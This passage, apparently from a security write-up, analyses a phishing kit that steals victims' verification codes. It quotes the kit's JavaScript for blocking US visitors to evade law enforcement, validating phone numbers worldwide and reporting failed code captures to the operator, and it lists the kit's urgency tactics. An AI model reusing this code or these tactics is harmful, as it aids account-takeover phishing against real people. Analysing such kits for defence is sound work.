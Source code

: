 **Chat Features:**

- Displays captured verification codes to victim
- Shows fake "8-digit security codes"
- Provides copy-to-clipboard functionality
- Creates urgency with time limits ("3 minutes validity")

### 🌐 Geographic Filtering

The system blocks US users to avoid law enforcement:

```javascript
getIP:function(){
    uni.request({
        url:"https://api.vore.top/api/IPdata",
        method:"GET",
        success:function(e){
            200==e.data.code&&"美国"===e.data.ipdata.info1&&
            uni.redirectTo({url:"/pages/index/app"})
        }
    })
}
```

### 📱 Phone Number Validation

Comprehensive validation for global phone numbers:

```javascript
phoneRules:{
    "+86":{pattern:/^1[3-9]\d{9}$/,length:11},
    "+852":{pattern:/^[5-9]\d{7}$/,length:8},
    "+853":{pattern:/^[6]\d{7}$/,length:8},
    "+886":{pattern:/^9\d{8}$/,length:9},
    "+1":{pattern:/^\d{10}$/,length:10},
    "+81":{pattern:/^[789]0\d{8}$/,length:10},
    "+82":{pattern:/^1[0-9]{8}$/,length:9},
    // ... patterns for 200+ countries
}
```

### 🔄 Error Handling and Retry Logic

The system tracks failed attempts and implements retry mechanisms:

```javascript
sendSysErrorMessage:function(e){
    var t=(new Date).getTime()+this.session_id+Math.floor(1e4*Math.random()),
    a={
        c:"Message",
        a:"sendMessage",
        data:{
            uid:this.nInputPhone,
            message:this.$t("系统消息---用户获取安全码失败次数过多")+e,
            message_type:0,
            session_id:this.session_id,
            modulename:this.mConfig.config.modulename,
            message_id:t
        }
    };
    this.onWsSend(a)
}
```
